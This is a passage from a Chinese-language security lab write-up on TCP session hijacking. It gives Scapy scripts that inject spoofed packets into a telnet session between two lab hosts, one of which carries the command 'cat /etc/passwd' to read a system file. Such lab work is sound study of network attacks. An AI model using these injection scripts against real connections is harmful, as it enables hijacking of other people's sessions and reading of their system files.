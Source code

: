 在attacker机器上运行代码，攻击成功：

![image-20220511215922424](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511215922424.png)

## Task 3: TCP Session Hijacking

通过向TCP会话中注入恶意内容来劫持两个受害者之间的现有TCP连接，实现TCP会话劫持攻击。

同样首先在10.9.0.6和10.9.0.7两台主机中建立telnet连接。同样通过抓包获得源&目的IP，源&目的端口号和序列号：

![image-20220511203842289](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511203842289.png)

根据抓包中获得数据补充相应内容。

seq仍然是wireshark中会显示的next sequence number。

ack的推断如图：

![](未命名文件.jpg)

先尝试发送字符串：

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.7")
tcp = TCP(sport=46010, dport=23, flags="A", seq=3129060118, ack=2667700963)
data = "Task3 TCP Session Hijacking"	# 构造data段
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

在attacker主机上运行程序，可以在load字段看到data payload：

![image-20220511204031749](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511204031749.png)

同样可以在wireshark中抓到自己的包：

![image-20220511204126269](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220511204126269.png)

再尝试在data中构造命令`cat /etc/password`：

```python
#!/usr/bin/env python3
from scapy.all import *
ip = IP(src="10.9.0.6", dst="10.9.0.7")
tcp = TCP(sport=46044, dport=23, flags="A", seq=1898635557, ack=3050792738)
data = "cat /etc/passwd\r"
pkt = ip/tcp/data
ls(pkt)
send(pkt, verbose=0)
```

在wireshark中抓到自己的包，成功发送数据`cat /etc/password`:
